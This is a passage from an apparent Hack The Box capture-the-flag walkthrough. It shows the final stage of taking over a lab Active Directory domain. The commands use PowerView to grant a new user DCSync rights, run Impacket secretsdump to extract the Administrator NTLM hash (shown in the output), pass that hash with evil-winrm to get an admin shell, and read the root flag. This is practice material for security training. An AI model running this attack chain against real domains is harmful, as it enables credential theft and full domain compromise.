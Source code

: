 Now use PowerView.ps1 to give DCSync rights to the new user:

```shell
# Upload PowerView.ps1 with evil-winrm upload function
*Evil-WinRM* PS C:\Windows\Temp> upload PowerView.ps1

# Enter the following commands to grant the new user DCSync rights
. ./PowerView.ps1
$SecPass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\vorkharium', $SecPass)
Add-DomainObjectACL -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity vorkharium -Rights DCSync -Verbose
```
After completing all the previous steps, now we can finally carry out a DCSync attack with our new user, using the -just-dc-user Administrator and -just-dc-ntlm to just get the hash of the Administrator as result:

```shell
impacket-secretsdump vorkharium@10.129.141.177 -just-dc-user Administrator -just-dc-ntlm
```
Nice! We got the hash of the Administrator:

```shell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
[*] Cleaning up...
```
### Administrator access with Pass-the-Hash and evil-winrm
Now we can Pass-the-hash to get access as Administrator using evil-winrm:

```shell
evil-winrm -i 10.129.141.177 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'
```
We are in!

```shell
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\Administrator\Desktop\root.txt
```